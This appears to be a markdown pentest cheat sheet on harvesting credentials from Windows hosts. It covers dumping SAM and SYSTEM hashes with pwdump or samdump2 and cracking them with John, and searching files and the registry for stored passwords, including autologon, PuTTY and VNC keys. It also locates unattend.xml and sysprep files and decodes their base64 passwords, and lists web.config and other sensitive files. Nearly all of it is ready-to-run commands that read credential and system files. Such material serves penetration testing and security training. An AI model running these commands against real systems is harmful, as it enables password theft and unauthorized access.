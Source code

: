 # SAM and SYSTEM Files

The **Security Account Manager (SAM)** is a database file where user passwords are stored in a hashed format. These hashes are stored as either an **LM hash** or an **NTLM hash**. This file can be found in `%SystemRoot%/system32/config/SAM` and is mounted on `HKLM/SAM`.

## File Locations

- `%SYSTEMROOT%\repair\SAM`
- `%SYSTEMROOT%\System32\config\RegBack\SAM`
- `%SYSTEMROOT%\System32\config\SAM`
- `%SYSTEMROOT%\repair\system`
- `%SYSTEMROOT%\System32\config\SYSTEM`
- `%SYSTEMROOT%\System32\config\RegBack\system`

## Generate a Hash File for John Using pwdump or samdump2

1. Using `pwdump`:
    ```bash
    pwdump SYSTEM SAM > /root/sam.txt
    ```
2. Using `samdump2`:
    ```bash
    samdump2 SYSTEM SAM -o sam.txt
    ```
3. Then crack it with John:
    ```bash
    john -format=NT /root/sam.txt
    ```

---

# Search for File Contents

To search for the word `password` in various file types:

1. **Command to search:**
    ```bash
    findstr /SI /M "password" *.xml *.ini *.txt
    ```
    or:
    ```bash
    findstr /si password *.xml *.ini *.txt *.config
    ```
2. **Search recursively across all files:**
    ```bash
    findstr /spin "password" *.*
    ```

## Search for a File with a Certain Filename

You can search for files matching these patterns:

- `*pass*.txt`
- `*pass*.xml`
- `*pass*.ini`
- `*cred*`
- `*vnc*`
- `*.config*`

Example:
```bash
where /R C:\ user.txt
where /R C:\ *.ini
```

---

# Search the Registry for Key Names and Passwords

### Commands to Search Registry for Passwords

- **Search in `HKLM` (HKEY_LOCAL_MACHINE):**
    ```bash
    REG QUERY HKLM /F "password" /t REG_SZ /S /K
    ```
- **Search in `HKCU` (HKEY_CURRENT_USER):**
    ```bash
    REG QUERY HKCU /F "password" /t REG_SZ /S /K
    ```

### Specific Registry Queries

- **Autologin Settings:**
    ```bash
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
    ```
- **SNMP Parameters:**
    ```bash
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
    ```
- **PuTTY Clear Text Proxy Credentials:**
    ```bash
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
    ```
- **VNC Credentials:**
    ```bash
    reg query "HKCU\Software\ORL\WinVNC3\Password"
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
    ```

### Query Passwords in the Registry

- **Search for `password`:**
    ```bash
    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
    ```

---

# Read a Value of a Certain Sub Key

To read a registry value:

```bash
REG QUERY "HKLM\Software\Microsoft\FTH" /V RuleList
```

---

# Passwords in unattend.xml

### Location of the unattend.xml Files

- `C:\unattend.xml`
- `C:\Windows\Panther\Unattend.xml`
- `C:\Windows\Panther\Unattend\Unattend.xml`
- `C:\Windows\system32\sysprep.inf`
- `C:\Windows\system32\sysprep\sysprep.xml`

### Display the Content of These Files

Use this command to display the contents of these files:
```bash
dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul
```

### Example Content

```xml
<component name="Microsoft-Windows-Shell-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="amd64">
    <AutoLogon>
        <Password>U2VjcmV0U2VjdXJlUGFzc3dvcmQxMjM0Kgo==</Password>
        <Enabled>true</Enabled>
        <Username>Administrateur</Username>
    </AutoLogon>

    <UserAccounts>
        <LocalAccounts>
            <LocalAccount wcm:action="add">
                <Password>*SENSITIVE*DATA*DELETED*</Password>
                <Group>administrators;users</Group>
                <Name>Administrateur</Name>
            </LocalAccount>
        </LocalAccounts>
    </UserAccounts>
</component>
```

Unattend credentials are stored in base64 and can be decoded manually with base64:
```bash
$ echo "U2VjcmV0U2VjdXJlUGFzc3dvcmQxMjM0Kgo=" | base64 -d
```
This will output:
```
SecretSecurePassword1234*
```

### Metasploit Module

The Metasploit module `post/windows/gather/enum_unattend` looks for these files.

---

# IIS Web Config

To search for `web.config` files in IIS:

```bash
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```

Common locations:
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
- `C:\inetpub\wwwroot\web.config`

---

# Other Files

Here are some other potentially sensitive files:

- `%SYSTEMDRIVE%\pagefile.sys`
- `%WINDIR%\debug\NetSetup.log`
- `%WINDIR%\repair\sam`
- `%WINDIR%\repair\system`
- `%WINDIR%\repair\software`
- `%WINDIR%\repair\security`
- `%WINDIR%\iis6.log`
- `%WINDIR%\system32\config\AppEvent.Evt`
- `%WINDIR%\system32\config\SecEvent.Evt`
- `%WINDIR%\system32\config\default.sav`
- `%WINDIR%\system32\config\security.sav`
- `%WINDIR%\system32\config\software.sav`
- `%WINDIR%\system32\config\system.sav`
- `%WINDIR%\system32\CCM\logs\*.log`
- `%USERPROFILE%\ntuser.dat`
- `%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat`
- `%WINDIR%\System32\drivers\etc\hosts`
- `C:\ProgramData\Configs\*`
- `C:\Program Files\Windows PowerShell\*`
- `dir c:*vnc.ini /s /b`
- `dir c:*ultravnc.ini /s /b`
```
